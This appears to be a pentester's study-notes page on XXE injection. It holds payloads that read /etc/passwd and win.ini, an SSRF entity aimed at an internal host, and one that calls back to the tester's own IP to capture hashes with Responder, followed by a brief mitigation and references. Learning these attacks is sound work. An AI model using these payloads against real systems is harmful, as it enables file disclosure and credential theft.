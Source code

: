 # XXE Injection

XML External Entity injection (XXE) - [OWASP](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing) *"is a type of attack against an application that parses XML input. This attack occurs when **XML input containing a reference to an external entity is processed by a weakly configured XML parser**. This attack may lead to the disclosure of confidential data, denial of service, server side request forgery, port scanning from the perspective of the machine where the parser is located, and other system impacts."*

## XXE to retrieve files

Portswigger example of stock level in  shopping application:
`<?xml version="1.0" encoding="UTF-8"?> <stockCheck><productId>381</productId></stockCheck>`

`<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]> <stockCheck><productId>&xxe;</productId></stockCheck>`

## XXE to SSRF attacks

`<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>`

3. Blind XXE to exfiltrate data out-of-band
4. Blind XXE to retrieve data via error messages

## XXE XML Entity injection

See [[XML]] for more about XML
```xml
<!--Last Line of Request -->

<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (ANY)> <!-- REF: (#ANY) instead of (ANY) -->
<!ENTITY file SYSTEM "file:///etc/passwd">
]> 
<xmlEntityInjection>
	<Author>Hacker1</Author> 
	<Subject>&file;</Subject>
	<Content>LearnDaXMLs3</Content>
</xmlEntityInjection>

<!--Notes -->
<!-- Creates a Header-->
<!-- System call to file variable->
<!-- Prints address file with &file -->
<!-- The two section must connect -->
```
[PayloadsAllTheThings - XXE ](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/Files/Classic%20XXE%20-%20etc%20passwd.xml)

To examplify, simplify the above and enumerate the OS with Arbituary File Read
```xml
<!-- Either:  -->
<!-- SYSTEM "/etc/passwd"  -->
<!-- SYSTEM "file:///etc/passwd"  -->

<!--Windows  -->

<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/windows/win.ini'>]>
<!--Entity is injected somewhere   -->
<placetoinject>
	&test;
</placetoinject>

<!--Linux  -->

<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
<!--Entity is injected somewhere   -->
<placetoinject>
	&test;
</placetoinject>
```

XXE abuse [[Server-Side-Request-Forgery]] - and capture hashes with [[Responder-Cheatsheet]]
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://$yourIP$/test"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```
The above is modified from HackTricks - [check Hacktricks for Blind SSRF, DTD abuse and others](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity)

## Mediation

Configuration of a XML interperter disallowing the inclusion of external entities enabling attack against applications that interpret XML language in their parameters. 



## References

[THM Walkthrough Room on XXE CVE-2021-29447](https://tryhackme.com/room/wordpresscve202129447)
[Portswigger](https://portswigger.net/web-security/xxe)
[BrightSec](https://brightsec.com/blog/xxe-attack/)
[OWASP](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)
[PayloadsAllTheThings - XXE ](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/Files/Classic%20XXE%20-%20etc%20passwd.xml)
[Hacktricks](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity)
